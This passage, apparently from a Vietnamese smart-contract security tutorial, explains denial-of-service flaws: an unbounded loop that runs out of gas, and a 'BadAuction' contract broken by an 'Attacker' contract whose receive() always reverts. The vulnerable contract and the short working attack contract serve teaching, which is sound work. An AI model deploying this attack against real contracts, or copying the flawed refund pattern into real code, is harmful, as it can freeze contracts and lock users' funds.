 Trong ví dụ này, kẻ tấn công có thể tạo ra một lượng lớn các địa chỉ và lưu vào mảng `investors` thông qua hàm `invest`. Nếu kích thước của mảng `investors` quá lớn, việc lặp qua từng phần tử của nó và thực hiện chuyển token (`transferToken`) có thể gây ra ngoại lệ hết gas (out-of-gas exception). Khi đó, các lời gọi hàm `transferToken` thành công trong giao dịch sẽ bị hủy bỏ và khiến cho smart contract không còn khả dụng.

Ví dụ khác, smart contract sau đây thực hiện gửi ETH cho người đặt cược cao nhất.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BadAuction {

  address payable highestBidder;
  uint highestBid;

  function bid() public payable {
    require(msg.value >= highestBid);

    if (highestBidder != address(0)) {
      highestBidder.transfer(highestBid);
    }

    highestBidder = payable(msg.sender);
    highestBid = msg.value;
  }
  
}
```

Smart contract này có thể bị tấn công DoS nếu kẻ tấn công luôn làm cho hàm `transfer` gây ra ngoại lệ:

```solidity
contract Attacker {
  
  BadAuction badAuction;

  constructor(address badAuctionAddress) {
    badAuction = BadAuction(badAuctionAddress);
  }

  function bid() public payable {
    badAuction.bid{value: msg.value}();
  }

  receive() external payable {
    revert();
  }
    
}
```
